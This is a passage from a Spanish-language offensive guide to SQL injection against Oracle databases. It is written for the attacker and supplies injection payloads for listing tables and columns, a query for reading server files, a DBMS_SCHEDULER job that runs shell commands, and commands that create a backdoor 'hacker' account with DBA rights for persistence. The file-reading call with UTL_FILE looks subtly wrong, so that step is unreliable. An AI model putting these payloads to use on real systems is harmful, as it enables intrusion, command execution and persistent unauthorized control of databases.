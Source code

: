 >Si podemos hacer consultas, pero no conocemos las tablas:
```
SELECT table_name FROM all_tables;
```
Para encontrar columnas dentro de una tabla:
```
'SELECT column_name FROM all_tab_columns WHERE table_name = 'USERS';--
```
#### **c) Leer Archivos del Servidor**

Si tenemos permisos suficientes, puedes leer archivos del sistema con `UTL_FILE`:

```
SELECT UTL_FILE.FGET('C:\oracle\admin\orcl\udump\alert_orcl.log') FROM dual;
```
Esto leería un log de Oracle en Windows.

#### **d) Ejecución de Comandos con `DBMS_SCHEDULER`**

Si tenemos privilegios elevados, podemos ejecutar comandos en el sistema:

```
'BEGIN  
  DBMS_SCHEDULER.create_job(  
    job_name => 'cmd_exec',  
    job_type => 'EXECUTABLE',  
    job_action => '/bin/bash -c "whoami > /tmp/output.txt"',  
    enabled => TRUE  
  );  
END;--
```
Luego puedes leer `/tmp/output.txt` para ver la salida del comando.

---
### **4. Persistencia y Escalada en Oracle**

Si logras acceso como `DBA`, puedes crear un usuario persistente:

```
'CREATE USER hacker IDENTIFIED BY 'P@ssw0rd';--
'GRANT DBA TO hacker;--
```
Esto te da control total sobre la base de datos.
